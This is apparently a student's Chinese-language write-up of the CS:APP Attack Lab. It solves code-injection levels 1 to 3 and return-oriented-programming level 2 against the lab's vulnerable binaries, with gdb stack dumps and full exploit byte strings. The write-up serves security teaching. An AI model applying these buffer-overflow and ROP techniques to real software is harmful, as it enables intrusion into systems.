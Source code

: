 #Code Injection Attack

## Level 1

先设置断点：

​	break getbuf           //调用Gets之前

​	break save_term         //返回getbuf之前

在断点分别print $rsp，可得到(void *) 0x5561dca0和(void *) 0x5561dc50，由此可知输入字符串在栈上的大概位置是0x5561dc50~0x5561dca0之间。



为便于检查，输入一个规则字符串，如Type string:mmmmmmmmmmmmmmmmmmm

然后，检查字节，得到如下结果：

(gdb) x/g 0x5561dc50
0x5561dc50:	0x0000000000401a8a
(gdb) x/g 0x5561dc58
0x5561dc58:	0x0000000055586000
(gdb) x/g 0x5561dc60
0x5561dc60:	0x0000000055685fe8
(gdb) x/g 0x5561dc68
0x5561dc68:	0x0000000000000002
(gdb) x/g 0x5561dc70
0x5561dc70:	0x00000000004017b4
(gdb) x/g 0x5561dc78
0x5561dc78:	0x6d6d6d6d6d6d6d6d
(gdb) x/g 0x5561dc80
0x5561dc80:	0x6d6d6d6d6d6d6d6d
(gdb) x/g 0x5561dc88
0x5561dc88:	0x00000000006d6d6d

(gdb) x/g 0x5561dc90

0x5561dc90:	0x0000000000000000
(gdb) x/g 0x5561dc98
0x5561dc98:	0x0000000055586000
(gdb) x/g 0x5561dca0
0x5561dca0:	0x0000000000401976

则，字符串的起始地址为0x5561dc78，需要被改变的返回地址在0x5561dca0处。

disas touch1可得touch1的起始地址为0x00000000004017c0，故只需将从0x5561dca0开始的3个字节更改为c0 17 40。

输入任意40个字符后接c0 17 40对应的字符即可。

Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 C0 17 40



## Level 2

​	调用touch2函数之前，需要将寄存器&rdi的值设置为cookie值，在Level1的基础上修改exploit string。首先，将末端的返回地址改为78 dc 61 55 00 00 00 00，这是exploit string的起始地址0x5561dc78，从此地址开始设置injected code。

​	第一条指令需要设置&rdi的值，在其他函数里随便找一条传立即数的mov指令，照搬过来，将其中的立即数值设置为cookie值0x59b997fa，即可。

​	接着，第二条指令，为retq指令，占一个字节，代码为c3。

​	然后，要调用touch2函数，在第一个返回地址后面再加上touch2的地址0x00000000004017ec，小端存储表示为ec 17 40 00 00 00 00 00。

miigao@miigao-PC:~/csapp3e-lab2-attacklab/attacklab-handout$ ./ctarget -q < exploit-raw2.txt 
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 C3 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00 



## Level 3

​	要传递的参数是一个字符串地址，字符串内容为cookie值“59b997fa”，通过查ASCII码表将其转换为“35 39 62 39 39 37 66 61 00”（最后面要添上一个字节00），第一次，我将字符串放置在起始地址

0x5561dc98（为exploit string分配的空间的靠后的区域），结果是misfire。

​	在strncmp函数前设置断点，检查发现injected code被更改了一部分，而低地址的8个字节未被更改，故可知应将cookie值“59b997fa”放置在低地址位置，将指令放到后面，指令执行后被更改没有影响。

(gdb) x/gx 0x5561dc78
0x5561dc78:	0x4444c35561dc97bf
(gdb) x/gx 0x5561dc80
0x5561dc80:	0x182b4db0d1d58200
(gdb) x/gx 0x5561dc88
0x5561dc88:	0x000000005561dc97
(gdb) x/gx 0x5561dc90
0x5561dc90:	0x0000000055685fe8
(gdb) x/gx 0x5561dc98
0x5561dc98:	0x0000000000000002
(gdb) x/gx 0x5561dca0
0x5561dca0:	0x0000000000401916
(gdb) x/gx 0x5561dca8

调整之后，顺利通过。

miigao@miigao-PC:~/csapp3e-lab2-attacklab/attacklab-handout$ ./ctarget -q < exploit-raw3.txt 
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 00 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 BF 78 DC 61 55 C3 97 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 



# Return-oriented Programming

## Level 2

​	因为在栈上申请的空间nonexecutable，所以exploit string的前40个字节没法利用了，地址跳转和数据传送都是利用栈顶指向的内容。

​	首先需要设置寄存器%rdi的值为cookie值，查Figure3.B可知，指令编码5f可以直接将栈顶内容弹出并传送至寄存器%rdi。然而，在gadgets farm中并没有任何字节为5f，故需要利用其他寄存器做中转，可先将cookie值传送至寄存器%rax，再利用指令movq %rax, %rdi将cookie值传到%rdi。

​	在gadgets farm中先找到popq %rax 的一个编码0x58的地址0x4019cc，第一个跳转地址编码为“cc 19 40 00 00 00 00 00”,后面接上cookie值的编码“fa 97 b9 59 00 00 00 00”,然后再找到一个movq %rax, %rdi的编码0x48 89 c7的地址0x4019a2，第二个跳转地址为“a2 19 40 00 00 00 00 00”,最后第三个跳转地址为touch2函数的地址“ec 17 40 00 00 00 00 00”。

miigao@miigao-PC:~/csapp3e-lab2-attacklab/attacklab-handout$ ./rtarget -q <exploit-raw4.txt 
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:BF FA 97 B9 59 C3 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 



## Level 3

To be continued.